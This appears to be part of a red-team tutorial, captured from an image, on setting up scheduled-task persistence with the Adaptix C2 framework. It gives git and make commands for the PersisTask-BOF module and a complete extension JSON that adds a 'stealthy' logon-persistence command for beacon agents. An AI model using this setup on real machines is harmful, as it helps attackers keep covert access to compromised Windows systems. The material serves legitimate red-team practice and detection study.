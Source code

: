 > **Recommendation:**  
> Use scheduled task persistence only when necessary and in controlled environments. Always assume defenders may detect and investigate new scheduled tasks, regardless of creation method.

---

# **Key Takeaways**

##  **BOFs and Persistence**

- **BOF (Beacon Object File):** Small, in-memory C modules for post-exploitation tasks, run by Adaptix agents.
    
- **Scheduled Task Persistence:** Creating a scheduled task that launches your payload at logon.
    

---

# **Step-by-Step Guide: Scheduled Task Persistence with Adaptix C2**

## **1. Prepare the Persistask Extension JSON**

1. **Clone the BOF**
```bash
git clone https://github.com/nickzer0/PersisTask-BOF.git
cd PersisTask-BOF
```
---
2. **Compile the BOF**
```shell
make
```

3. ** Add Your Adaptix Extension JSON** to the same folder
- Create your extension JSON file (e.g., `persistask.json`) with the following content
```json
{
    "name": "PersisTask-BOF",
    "description": "Persistence via scheduled task creation using a COM object for OPSEC-safe logon persistence.",
    "extensions": [
        {
            "type": "command",
            "agents": ["beacon"],
            "command": "persistask",
            "description": "Add or remove a scheduled task at logon using a stealthy COM object method. For 'add', provide all three arguments. For 'remove', provide the task name and use \"\" (empty quotes) for the command.",
            "message": "BOF implementation: persistask",
            "example": "persistask add MyTaskName \"C:\\Windows\\System32\\notepad.exe\"",
            "args": [
                "STRING <action> (add|remove)",
                "STRING <task_name> (Name of the scheduled task)",
                "STRING <command> (Command to run; required for 'add', use \"\" for 'remove')"
            ],
            "exec": "execute bof $EXT_DIR()/persistask.$ARCH().o $PACK_BOF(CSTR {action} CSTR {task_name} CSTR {command})"
        }
    ]
}

```